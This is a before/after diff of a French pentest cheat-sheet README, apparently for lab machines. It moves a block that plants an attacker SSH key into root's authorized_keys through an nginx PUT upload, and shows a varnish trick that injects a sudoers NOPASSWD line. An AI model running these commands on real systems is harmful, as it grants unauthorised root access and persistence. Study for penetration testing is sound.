

Before and after one commit to 4nuit/Hacking, a Markdown page: pentest/README.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
memo ssh

````diff
--- a/pentest/README.md
+++ b/pentest/README.md
@@ -485,6 +485,16 @@ ps aux
 - https://github.com/docker/docker-bench-security
 - https://github.com/PercussiveElbow/docker-escape-tool/
 
+### SSH keys
+
+- https://www.howtouselinux.com/post/ssh-stricthostkeychecking-option
+
+```bash
+ssh-keygen
+cat ~/.ssh/id_ed25519.pub > authorized_keys
+ssh -i ~/.ssh/id_ed25519 user@127.0.0.1
+```
+
 ### ENV & SUID Programs
 
 ```c
@@ -548,7 +558,7 @@ chmod +x /home/user/overwrite.sh
 /tmp/rootbash -p
 ```
 
-### Nginx
+### Nginx exploitation
 
 Dans le cas d'un binaire SUID, on rajoute `dav_methods PUT` pour uploader n'importe quel fichier
 
@@ -586,6 +596,18 @@ netstat -tunlp | grep 1337
 tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      -
 ```
 
+#### SSH - Keygen
+
+```bash
+## attaquant
+ssh-keygen -t rsa -b 4096 -f keyname
+#victime
+curl localhost:1337/root/.ssh/authorized_keys --upload-file keyname.pub
+
+#attaquant
+ssh root@10.10.11.243 -i keyname
+```
+
 ### Varnish
 
 ```bash
@@ -598,17 +620,6 @@ sudo varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{pwnd}i' -w "$LFILE"
 curl -H 'xxx:www-data ALL=(ALL) NOPASSWD:ALL' http://127.0.0.1:6081/xxx
 ```
 
-### SSH - Keygen
-
-```bash
-## attaquant
-ssh-keygen -t rsa -b 4096 -f keyname
-#victime
-curl localhost:1337/root/.ssh/authorized_keys --upload-file keyname.pub
-
-#attaquant
-ssh root@10.10.11.243 -i keyname
-```
 
 ## Anti-Forensic (suppression de logs)
 
````
